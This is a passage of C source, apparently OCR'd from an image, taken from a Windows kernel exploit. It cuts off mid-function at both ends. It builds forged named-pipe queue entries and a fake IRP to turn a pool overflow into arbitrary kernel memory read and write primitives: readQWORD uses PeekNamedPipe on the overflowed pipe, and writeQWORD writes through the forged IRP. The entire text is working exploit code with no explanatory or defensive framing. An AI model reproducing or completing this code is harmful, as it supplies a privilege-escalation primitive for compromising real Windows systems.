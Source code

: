 ```
  *(DWORD64 * )(buffer + 0x10) = (DWORD64) 0; // IRP
  *(DWORD64 * )(buffer + 0x18) = (DWORD64) 0; // SecurityContext
  *(DWORD * )(buffer + 0x20) = (DWORD) 0; // Entry Type
  *(DWORD * )(buffer + 0x24) = (DWORD) size; // QuotaEntry
  *(DWORD * )(buffer + 0x28) = (DWORD) size; // DataSize
  *(DWORD * )(buffer + 0x2C) = (DWORD) 0; // x
}

void setuparw(LPBYTE buffer, DWORD64 dstaddr, DWORD64 * value, DWORD size = 0x10) {
  #define IRP_BUFFERED_IO 0x00000010
  #define IRP_DEALLOCATE_BUFFER 0x00000020
  #define IRP_INPUT_OPERATION 0x00000040
  // Setup Overflow Data
  fakeirp_w -> Flags = 0x0060400;
  fakeirp_w -> CurrentLocation = fakeirp_w -> StackCount + 1;
  fakeirp_w -> UserIosb = (PVOID64) dstaddr;
  memcpy((void * ) & fakeirp_w -> IoStatus, value, 0x10);
  //fakeirp_w->CancelRoutine = NULL;

  fakeirp_w -> UserEvent = (PVOID64) fakeevent;
  *(DWORD * )(fakeevent + 4) = 1; // Set State

  /*  fakeirp_w->Flags |= IRP_BUFFERED_IO | IRP_INPUT_OPERATION;  fakeirp_w->Flags &= ~IRP_DEALLOCATE_BUFFER;  fakeirp_w->AssociatedIrp = (PVOID64)srcaddr; // src  fakeirp_w->UserBuffer = (PVOID64)dstaddr; // dst  fakeirp_w->ThreadListEntry.Flink = (ULONGLONG)(thread_list);  fakeirp_w->ThreadListEntry.Blink = (ULONGLONG)(thread_list);  thread_list[0] = thread_list[1] = (DWORD64)((LPBYTE)fakeirp_w + offsetof(IRP, ThreadListEntry.Flink));  */

  *(DWORD64 * )(buffer + 0x0) = flink; // NextEntry->Flink
  *(DWORD64 * )(buffer + 0x8) = blink; // NextEntry->Blink
  *(DWORD64 * )(buffer + 0x10) = (DWORD64) fakeirp_w; // IRP
  *(DWORD64 * )(buffer + 0x18) = (DWORD64) 0; // SecurityContext
  *(DWORD * )(buffer + 0x20) = (DWORD) 2; // Entry Type
  *(DWORD * )(buffer + 0x24) = (DWORD) size - 1; // QuotaEntry
  *(DWORD * )(buffer + 0x28) = (DWORD) size; // DataSize
  *(DWORD * )(buffer + 0x2C) = (DWORD) 0; // x
}

void setupbug(LPBYTE buffer, DWORD64 bugaddr, DWORD size = 0xfc0) {

  *(DWORD64 * )(buffer + 0x0) = flink; // NextEntry->Flink
  *(DWORD64 * )(buffer + 0x8) = blink; // NextEntry->Blink
  *(DWORD64 * )(buffer + 0x10) = (DWORD64) bugaddr; // IRP
  *(DWORD64 * )(buffer + 0x18) = (DWORD64) 0; // SecurityContext
  *(DWORD * )(buffer + 0x20) = (DWORD) 2; // Entry Type
  *(DWORD * )(buffer + 0x24) = (DWORD) size; // QuotaEntry
  *(DWORD * )(buffer + 0x28) = (DWORD) size; // DataSize
  *(DWORD * )(buffer + 0x2C) = (DWORD) 0; // x
}

DWORD64 readQWORD(DWORD64 addr) {
  DWORD64 readdata;
  DWORD read;
  fakeirp.AssociatedIrp = (PVOID64)(addr);
  PeekNamedPipe(pipes[overflowidx].r, & readdata, 8, & read, NULL, NULL);
  return readdata;
}

void writeQWORD(DWORD64 addr, DWORD64 value) {
  DWORD64 writedata = value;
  DWORD read;
  fakeirp_w -> AssociatedIrp = (PVOID64)( & writedata);
  fakeirp_w -> UserBuffer = (PVOID64)(addr);
```